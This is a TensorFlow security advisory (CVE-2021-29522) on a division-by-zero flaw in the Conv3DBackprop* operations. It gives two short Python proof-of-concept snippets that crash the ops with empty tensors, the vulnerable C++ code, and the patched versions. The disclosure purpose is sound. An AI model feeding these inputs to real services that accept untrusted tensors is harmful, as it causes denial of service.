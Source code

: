 ## TFSA-2021-011: Division by 0 in `Conv3DBackprop*`

### CVE Number
CVE-2021-29522

### Impact
The `tf.raw_ops.Conv3DBackprop*` operations fail to validate that the input
tensors are not empty. In turn, this would result in a division by 0:

```python
import tensorflow as tf

input_sizes = tf.constant([0, 0, 0, 0, 0], shape=[5], dtype=tf.int32)
filter_tensor = tf.constant([], shape=[0, 0, 0, 1, 0], dtype=tf.float32)
out_backprop = tf.constant([], shape=[0, 0, 0, 0, 0], dtype=tf.float32)

tf.raw_ops.Conv3DBackpropInputV2(input_sizes=input_sizes, filter=filter_tensor, out_backprop=out_backprop, strides=[1, 1, 1, 1, 1], padding='SAME', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```
```python
import tensorflow as tf

input_sizes = tf.constant([1], shape=[1, 1, 1, 1, 1], dtype=tf.float32)
filter_tensor = tf.constant([0, 0, 0, 1, 0], shape=[5], dtype=tf.int32)
out_backprop = tf.constant([], shape=[1, 1, 1, 1, 0], dtype=tf.float32)

tf.raw_ops.Conv3DBackpropFilterV2(input=input_sizes, filter_sizes=filter_tensor, out_backprop=out_backprop, strides=[1, 1, 1, 1, 1], padding='SAME', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/a91bb59769f19146d5a0c20060244378e878f140/tensorflow/core/kernels/conv_grad_ops_3d.cc#L430-L450)
does not check that the divisor used in computing the shard size is not zero:

```cc
  const int64 size_A = output_image_size * dims.out_depth;
  const int64 size_B = filter_total_size * dims.out_depth;
  const int64 size_C = output_image_size * filter_total_size;
  const int64 work_unit_size = size_A + size_B + size_C;
  ...
  const size_t shard_size =
      use_parallel_contraction
        ? 1
        : (target_working_set_size + work_unit_size - 1) / work_unit_size;
```

Thus, if attacker controls the input sizes, they can trigger a denial of service
via a division by zero error.

### Patches
We have patched the issue in GitHub commit
[311403edbc9816df80274bd1ea8b3c0c0f22c3fa](https://github.com/tensorflow/tensorflow/commit/311403edbc9816df80274bd1ea8b3c0c0f22c3fa).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
